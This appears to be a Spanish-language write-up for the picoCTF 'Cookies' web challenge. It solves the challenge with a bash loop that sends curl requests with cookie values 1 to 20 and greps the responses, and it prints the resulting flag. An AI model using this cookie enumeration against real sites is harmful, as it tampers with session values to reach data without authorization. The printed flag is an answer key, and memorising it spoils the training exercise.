 # Cookies

## Descripción
¿A quién no le gustan las galletas? Intenta averiguar cuál es la mejor. 
http://mercury.picoctf.net:54219/

## Pistas
(None)

## Solución
```bash
┌──(kali㉿kali)-[~]
└─$ for i in {1..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep pico 
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>
```

## Bandera
picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}

## Notas adicionales
Se utilizó un simple script para mandar el número de la cookie "name" para localizar la galleta que contiene la bandera, para filtrar todos los resultados que arroja la página se usó grep con la palabra "pico".

## Referencias